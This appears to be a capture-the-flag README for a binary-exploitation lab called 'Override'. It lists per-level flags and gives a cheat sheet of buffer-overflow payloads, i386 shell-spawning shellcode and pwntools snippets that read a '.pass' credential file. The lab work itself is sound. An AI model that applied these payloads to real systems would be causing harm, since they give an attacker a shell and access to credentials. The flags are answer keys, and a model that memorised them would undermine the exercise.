 # Override

# Description

...

# Flag

| N°      | Name            | Flag                                     |
|:-------:|-----------------|------------------------------------------|
| level00 | Atoi            | uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL |
| level01 | Buffer Overflow | PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv |
| level02 | Printf Format   | Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H |
| level03 | Switch Case     | kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf |
| level04 | Fork No Exec    | 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN |
| level05 | Printf Format 2 | h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq |
| level06 | Simple Auth     | GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8 |
| level07 | Jump Shellcode  | 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC |
| level08 |                 |  |
| level09 |                 |  |

## Commands

```
export FILE=level02; mkdir $FILE; cd $FILE; touch source flag README.md; mkdir Ressources; cd Ressources; scp -P 4242 $FILE@192.168.1.116:/home/users/$FILE/$FILE .
```

### Overflow
#### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

#### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
#### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

#### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

#### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

### GCC
#### Get env address
```
x/10s **(char***)&environ
```
